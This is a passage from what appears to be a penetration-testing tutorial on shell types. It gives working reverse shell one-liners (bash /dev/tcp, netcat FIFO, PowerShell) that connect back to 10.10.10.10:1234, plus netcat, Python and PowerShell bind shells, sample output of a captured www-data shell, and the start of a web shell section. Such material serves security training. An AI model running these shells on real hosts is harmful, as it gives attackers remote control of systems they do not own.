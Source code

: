 # Reverse Shell

A Reverse Shell is the most common type of shell, as it is the quickest and

easiest method to obtain control over a compromised host. Once we identify a

vulnerability on the remote host that allows remote code execution, we can start

a netcat listener on our machine that listens on a specific port, say port 1234.

With this listener in place, we can execute a reverse shell command that

connects the remote systems shell, i.e., Bash or PowerShell to our netcat

listener, which gives us a reverse connection over the remote system.

The first step is to start a netcat listener on a port of our choosing:

```c
nc -lvnp 1234

listening on [any] 1234 ...
```

Now that we have a netcat listener waiting for a connection, we can execute the reverse shell command that connects to us.


The command we execute depends on what operating system the compromised host

runs on, i.e., Linux or Windows, and what applications and commands we can

access. The Payload All The Things page has a comprehensive list of reverse

shell commands we can use that cover a wide range of options depending on our

compromised host.

Certain reverse shell commands are more reliable than others and can usually be

attempted to get a reverse connection. The below commands are reliable commands

we can use to get a reverse connection, for bash on Linux compromised hosts and

Powershell on Windows compromised hosts:


```c
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the

above commands, i.e., through a Python exploit or a Metasploit module, to get a

reverse connection. Once we do, we should receive a connection in our netcat

listener:

```c
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our netcat listener, we were

able to type our command and directly get its output back, right in our machine.

A Reverse Shell is handy when we want to get a quick, reliable connection to our

compromised host. However, a Reverse Shell can be very fragile. Once the reverse

shell command is stopped, or if we lose our connection for any reason, we would

have to use the initial exploit to execute the reverse shell command again to

regain our access.

# Bind Shell

Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to

us, we will have to connect to it on the targets' listening port.

Once we execute a Bind Shell Command, it will start listening on a port on the

remote host and bind that host's shell, i.e., Bash or PowerShell, to that port.

We have to connect to that port with netcat, and we will get control through a

shell on that system.


```c
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();



```
```c
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Web Shell

The final type of shell we have is a Web Shell. A Web Shell is typically a web

script, i.e., PHP or ASPX, that accepts our command through HTTP request

parameters such as GET or POST request parameters, executes our command, and

prints its output back on the web page.


